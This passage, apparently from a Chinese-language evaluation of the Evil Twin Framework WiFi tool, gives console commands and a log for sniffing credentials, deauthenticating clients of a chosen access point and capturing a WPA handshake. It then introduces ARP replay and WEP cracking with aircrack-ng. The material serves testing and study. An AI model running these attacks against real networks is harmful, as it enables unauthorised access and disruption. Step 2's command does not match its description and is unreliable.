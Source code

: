 1. 进入 AirScanner 配置模式：`config airscanner`
2. 设置 AirScanner 不跳信道：`config airscanner`
3. 设置信道以嗅探经过 WiFi 接入点信道的数据（APC）：`set fixed_sniffing_channel = <APC>`
4. 使用 CredentialSniffer 插件来启动 AirScanner 模块：`start airscanner with credentialsniffer`
5. 从已嗅探的接入点列表中添加目标接入点的 BSSID（APS）：`add aps where ssid = <APS>`
6. 启用 AirInjector 模块，在默认情况下，它会启用解除认证攻击：`start airinjector`


这些简单的命令设置能让 ETF 在每次测试时执行成功且有效的解除认证攻击。ETF 也能在每次测试的时候捕获 WPA 的握手数据包。下面的代码能让我们看到 ETF 成功的执行情况。



```
███████╗████████╗███████╗
██╔════╝╚══██╔══╝██╔════╝
█████╗     ██║   █████╗  
██╔══╝     ██║   ██╔══╝  
███████╗   ██║   ██║    
╚══════╝   ╚═╝   ╚═╝    
                                       

[+] Do you want to load an older session? [Y/n]: n
[+] Creating new temporary session on 02/08/2018
[+] Enter the desired session name:
ETF[etf/aircommunicator/]::> config airscanner
ETF[etf/aircommunicator/airscanner]::> listargs
  sniffing_interface =               wlan1; (var)
              probes =                True; (var)
             beacons =                True; (var)
        hop_channels =               false; (var)
fixed_sniffing_channel =                  11; (var)
ETF[etf/aircommunicator/airscanner]::> start airscanner with
arpreplayer        caffelatte         credentialsniffer  packetlogger       selfishwifi        
ETF[etf/aircommunicator/airscanner]::> start airscanner with credentialsniffer
[+] Successfully added credentialsniffer plugin.
[+] Starting packet sniffer on interface 'wlan1'
[+] Set fixed channel to 11
ETF[etf/aircommunicator/airscanner]::> add aps where ssid = CrackWPA
ETF[etf/aircommunicator/airscanner]::> start airinjector
ETF[etf/aircommunicator/airscanner]::> [+] Starting deauthentication attack
                    - 1000 bursts of 1 packets
                    - 1 different packets
[+] Injection attacks finished executing.
[+] Starting post injection methods
[+] Post injection methods finished
[+] WPA Handshake found for client '70:3e:ac:bb:78:64' and network 'CrackWPA'
```

#### 使用 ARP 重放攻击并破解 WEP 无线网络


下面这个场景（图 3）将关注[地址解析协议](https://en.wikipedia.org/wiki/Address_Resolution_Protocol)（ARP）重放攻击的效率和捕获包含初始化向量（IVs）的 WEP 数据包的速度。相同的网络可能需要破解不同数量的捕获的 IVs，所以这个场景的 IVs 上限是 50000。如果这个网络在首次测试期间，还未捕获到 50000 IVs 就崩溃了，那么实际捕获到的 IVs 数量会成为这个网络在接下来的测试里的新的上限。我们使用 `aircrack-ng` 对数据包进行破解。
